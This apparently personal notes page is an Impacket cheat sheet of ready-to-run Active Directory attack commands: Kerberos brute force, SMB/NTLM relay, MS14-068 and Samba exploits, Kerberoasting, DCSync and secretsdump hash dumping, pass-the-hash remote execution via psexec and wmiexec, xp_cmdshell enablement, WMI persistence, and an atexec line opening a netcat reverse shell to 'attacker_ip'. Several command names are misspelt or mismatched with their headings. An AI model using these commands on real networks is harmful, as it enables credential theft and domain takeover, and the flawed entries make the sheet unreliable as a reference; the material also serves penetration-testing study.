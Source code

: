 ```yaml
---
layout: notes
permalink: /notes/cheat/impacket/
title: Impacket Cheat Sheet
---
```


# Impacket Cheat Sheet

<!-- -------------------------------------Attacks and Exploits-------------------------------------------- -->


<details markdown="1">
<summary>Attacks and Exploits</summary>
<p></p>

### impacket-kerbrute
```
# Brute-forces user/password combinations against Kerberos.
impacket-kerbrute -userfile userlist.txt -password Passw0rd! domain.com
```

### impacket-karmaSMB
```
# Executes SMB relay attack, intercepts and relays authentication attempts.
impacket-karmaSMB -h target
```

### impacket-karmaTFTP
```
# Performs TFTP relay attack, similar to karmaSMB.py but over TFTP.
impacket-karmaTFTP -h target
```

### impacket-goldenpac
```
# Exploit script for MS14-068, saves golden ticket, launches PSEXEC session.
impacket-goldenpac domain/user:password@target
```

### impacket-sambapipe
```
# Exploits CVE-2017-7494, uploads and executes shared library.
impacket-sambapipe -so /path/to/shared/library.so domain/user:password@target
```

### impacket-smbrelayx
```
# Exploit script for CVE-2015-0005, uses SMB Relay Attack, gathers session key through NETLOGON.
impacket-smbrelayx -h target
```

### impacket-ntlmrelayx
```
# Executes NTLM Relay Attacks, sets up servers (SMB, HTTP, WCF, RAW), relays to multiple protocols.
impacket-ntlmrelayx -h target
```
</details>

<!-- -------------------------------------Database Interaction-------------------------------------------- -->


<details markdown="1">
<summary>Database Interaction</summary>
<p></p>

### impacket-mssqlclient
```
# Retrieves the MSSQL instances names from the target host.
impacket-mssqlclient 192.168.1.2

# MSSQL client, supports SQL/Windows Authentications (including hashes), TLR.
impacket-mssqlclient domain/user:password@target
impacket-mssqlclient -windows-auth htb.local/mssql-svc@10.10.x.x

# Connect to MS-SQL Server via default SA creds
impacket-mssqlclient sa:'poiuytrewq'@<target>

# Enable XP_CMDSHELL for Remote Code Exection
> EXECUTE sp_configure 'show advanced options', 1;
> RECONFIGURE;
> EXECUTE sp_configure 'xp_cmdshell', 1;
> RECONFIGURE;
> xp_cmdshell '<command>'
```
</details>


<!-- -------------------------------------File System Tools-------------------------------------------- -->


<details markdown="1">
<summary>File System Tools</summary>
<p></p>

### impacket-esentutl
```
# Dumps catalogs, pages, tables of ESE databases (e.g., NTDS.dit).
impacket-esentutl -m tables path\to\database.edb
```

### impacket-ntfs-read
```
# Provides mini-shell for browsing/extracting NTFS volume, including hidden/locked contents.
impacket-ntfs-read /path/to/ntfs/device
```

### impacketregistry-read
```
# Parses offline Windows Registry hives, useful for forensic investigations.
impacketregistry-read /path/to/registry/file
```
</details>

<!-- -------------------------------------Information Gathering-------------------------------------------- -->


<details markdown="1">
<summary>Information Gathering</summary>
<p></p>

### impacket-wmiquery
```
# Issues WQL queries, obtains descriptions of WMI objects at target system.
impacket-wmiquery domain/user:password@target "select name from win32_account"
```

### impacket-finddelegation
```
# Lists all delegation relationships (unconstrained, constrained, resource-based) in Active Directory.
impacket-finddelegation domain/user:password@target
```

### impacket-getadusers
```
# Gathers domain users and their email addresses, includes last logon/password set info.
impacket-getadusers domain/user:password@target
```

### impacket-get-gpppassword
```
# Extracts/decrypts Group Policy Preferences passwords, parses GPP XML files offline.
impacket-get-gpppassword domain/user:password@target
```

### impacket-lookupsid
```
# Windows SID brute forcer through MS-LSAT MSRPC Interface, finds users/groups.
impacket-lookupsid domain/user:password@target
```

### impacket-netview
```
# Gets list of sessions opened at remote hosts, tracks logins/logouts.
impacket-netview domain/user:password@target
```

### impacket-rpcdump
```
# Dumps list of RPC endpoints and string bindings, matches with well-known endpoints.
impacket-rpcdump domain/user:password@target
```

### impacket-rpcmaps
```
# Scans for listening DCE/RPC interfaces, binds to MGMT interface or tries known UUIDs.
impacket-rpcmaps domain/user:password@target
```

### impacket-samrdump
```
# Manipulates Windows services through MS-SCMR MSRPC Interface (start, stop, delete, etc.).
impacket-services domain/user:password@target list
```

### impacket-mssqlinstance
```
# Retrieves MSSQL instance names from target host.
impacket-mssqlinstance domain/user:password@target
```

### impacket-rdp_check
```
# Tests account validity on target host using partial MS-RDPBCGR and MS-CREDSSP implementation.
impacket-rdp_check target username password
```

### impacket-mqtt_check
```
# Simple MQIT example, tests different login options, can be used for brute-forcing.
impacket-mqt_check target -u username -P password
```
</details>

<!-- -------------------------------------Kerberos Manipulation-------------------------------------------- -->


<details markdown="1">
<summary>Kerberos Manipulation</summary>
<p></p>

### impacket-GetTGT
```
# GetTGT enables you to request a Ticket Granting Ticket (TGT) and save it as ccache, given a password, hash, or aesKey.
impacket-GetTGT test.local/user:password
```

### impacket-GetST
```
# GetST is designed to request a Service Ticket (ST) and save it as ccache given a password, hash, aesKey, or TGT in ccache. If an account has constrained delegation (with protocol transition) privileges, you can use the ‘-impersonate’ switch to request the ticket on behalf of another user. 
impacket-GetST test.local/user:password -impersonate victim_user
```

### impacket-GetPac
```
# GetPac uses a mix of [MS-SFU]’s S4USelf + User to User Kerberos Authentication to acquire the PAC (Privilege Attribute Certificate) structure of a target user by having normal authenticated user credentials.
impacket-GetPac test.local/user:password target_user
```

### impacket-GetUserSPNs
```
# GetUserSPNs finds and fetches Service Principal Names (SPNs) associated with normal user accounts. The output is compatible with JtR and HashCat.
impacket-GetUserSPNs test.local/user:password

# with a password
impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
impacket-GetUserSPNs -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

# Kerberoast without preauthentication
impacket-GetUserSPNs -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```

### impacket-GetNPUsers
```
# GetNPUsers lists and gets TGTs for users who have the ‘Do not require Kerberos preauthentication’ property set (UF_DONT_REQUIRE_PREAUTH). The output is compatible with JtR.
impacket-GetNPUsers test.local/

# users list dynamically queried with an RPC null session
impacket-GetNPUser -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
impacket-GetNPUser -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
impacket-GetNPUser -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
impacket-GetNPUser -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

### impacket-rbcd
```
# rbcd handles the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer.
impacket-rbcd domain/user:password
```

### impacket-ticketConverter
```
# Converts kirbi files (mimikatz) to/from ccache files used by Impacket.
impacket-ticketconverter mimikatz.kirbi
```

### impacket-ticketer
```
# Creates Golden/Silver tickets from scratch or based on a template.
impacket-ticketer -golden -user victim_user -domain
```
</details>

<!-- -------------------------------------Network Utilities-------------------------------------------- -->


<details markdown="1">
<summary>Network Utilities</summary>
<p></p>

### impacket-sniff
```
# Simple packet sniffer using pcapy library, listens for packets in transit.
impacket-sniff -i eth0
```

### impacket-sniffer
```
# Simple packet sniffer using raw socket, listens for specified protocols.
impacket-sniffer -p tcp -i eth0
```

### impacket-ping
```
# ICMP ping script, checks host status using echo/echo-reply packets.
impacket-ping target
```

### impacket-ping6
```
# IPv6 ICMP ping script, checks host status using echo/echo-reply packets.
impacket-ping6 target
```
</details>


<!-- -------------------------------------Password and Hash Dumps-------------------------------------------- -->


<details markdown="1">
<summary>Password and Hash Dumps</summary>
<p></p>

### impacket-secretsdump
```
# Dumps password hashes, LSA secrets, cached credentials, and other info. (Requirements: Domain Administrator Privileges)
impacket-secretsdump domain/user:password@target

# Remote extraction
impacket-secretsdump -just-dc-ntlm domain/user:password@IP
impacket-secretsdump -just-dc-ntlm domain/user:@IP -hashes LMHASH:NTHASH

# Extract NTLM hashes with local files
impacket-secretsdump -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

# DCsync via Pass-the-Hash
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -hashes <ntlm>:<ntlm> > <outfile.txt>

# DCsync via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-secretsdump <domain>/<domain_admin>@<target_dc> -k -no-pass > <outfile.txt>
```

### impacket-mimikatz
```
# Mini-shell controlling remote mimikatz RPC server, extracts passwords, hashes, tickets.
impacket-mimikatz domain/user:password@target
impacket-mimikatz -dc-ip 10.10.2.1 -target-ip 10.10.2.3 domain/user:password
```
</details>


<!-- -------------------------------------Remote Command Execution-------------------------------------------- -->


<details markdown="1">
<summary>Remote Command Execution</summary>
<p></p>

### impacket-psexec
```
# Acquire a SYSTEM level shell via exploiting write privileges in the default ADMIN$ share.

# PsExec will upload a .exe file to the ADMIN$ share
# Psexec via Password
impacket-psxec <domain>/<username>:'<password'@<target>

# Psexec via Pass-the-Hash
impacket-psexec <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Psexec via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-psexec <domain>/<username>@<target> -k -no-pass

# Optional: add a specific command to execute (default: cmd.exe)
impacket-psxec <domain>/<username>:'<password>'@<target> '<command_to_execute>'

# Return Help                    : help
# Execute Local Commands         : !<local_command>
# Upload Files to Temp Directory : lput <local_file> Temp
```

### impacket-smbexec
```
# Alternative to psexec, SmbExec will upload a .exe file to the ADMIN$ share
impacket-smbexec test.local/john:password123@10.10.10.1
```

### impacket-atexec
```
# Executes commands on the target machine using the Task Scheduler service, returning the output of the performed command.
impacket-atexec test.local/john:password123@10.10.10.1

# with cleartext credentials
impacket-atexec 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami

# pass-the-hash (with an NT hash)
impacket-atexec -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami

# kerberos ticket in memory
impacket-atexec -no-pass -k 'DOMAIN'/'USER'@'target_ip' ' -c "nc.exe attacker_ip 4545 -e cmd.exe"'
```

### impacket-wmiexec
```
# Semi-interactive shell used through Windows Management Instrumentation (WMI). This technique is highly stealthy as it doesn’t necessitate any service/agent installation on the target server and operates as an Administrator.
impacket-wmiexec test.local/john:password123@10.10.10.1
```

### impacket-dcomexec
```
# Semi-interactive shell similiar to wmiexec.py but employs different DCOM endpoints. This technique currently supports MMC20.Application, ShellWindows, and ShellBrowserWindow objects.
impacket-dcomexec test.local/john:password123@10.10.10.1
```

### impacket-wmipersist
```
# Creates/removes WMI Event Consumer/Filter to execute Visual Basic scripts based on WQL filter/timer.
impacket-wmipersist domain/user:password@target install
```
</details>


<!-- -------------------------------------SMB/MSRPC Utilities-------------------------------------------- -->


<details markdown="1">
<summary>SMB/MSRPC Utilities</summary>
<p></p>

### impacket-smbserver
```
# Python implementation of SMB server, sets up shares and user accounts.
# Host Current Directory
impacket-smbserver <share_name> -smb2support .

# Host Specified Directory
impacket-smbserver <share_name> -smb2support <path_to_serve>

# Path to Share
# \\<ip_addr>\<share_name>\<hosted_files>
```

### impacket-addcomputer
```
# Adds computer to domain using LDAP or SAMR (SMB).
impacket-addcomputer domain/user:password@target
```

### impacket-getarch
```
# Gathers OS architecture type by abuse of MSRPC feature.
impacket-getarch domain/user:password@target
```

### impacket-exchanger
```
# Connects to MS Exchange via RPC over HTTP v2.
impacket-exchanger domain/user:password@target
```

### impacket-reg
```
# Remote registry manipulation tool through MS-RRP MSRPC Interface, similar to REG.EXE.
impacket-reg domain/user:password@target query -k HKLM\Software
```

### impacket-smbpasswd
```
# Changes expired passwords remotely over SMB (MSRPC-SAMR), alternative to smbpasswd tool.
impacket-smbpasswd -r target -U user%oldpassword -n newpassword
```

### impacket-smbclient
```
# General-purpose SMB client, lists/manipulates shares, files, directories.
# Smbclient via Password
impacket-smbclient <domain>/<username>:'<password'@<target>

# Smbclient via Pass-the-Hash
impacket-smbclient <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Smbclient via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-smbclient <domain>/<username>@<target> -k -no-pass

# Common Commands             : cat, ls, cd, mkdir, rmdir
# List Available Shares       : shares
# Mount Share                 : use <share_name>
# Upload File                 : put <local_filename>
# Download File               : get <remote_filename>
# Download All Files from PWD : mget <match_mask>
# Change the User's Password  : password
# Return Host Information     : info
```
</details>

Other resources:\
[https://tools.thehacker.recipes/impacket](https://tools.thehacker.recipes/impacket)

All commands you may find here:\
[https://wadcoms.github.io/](https://wadcoms.github.io/)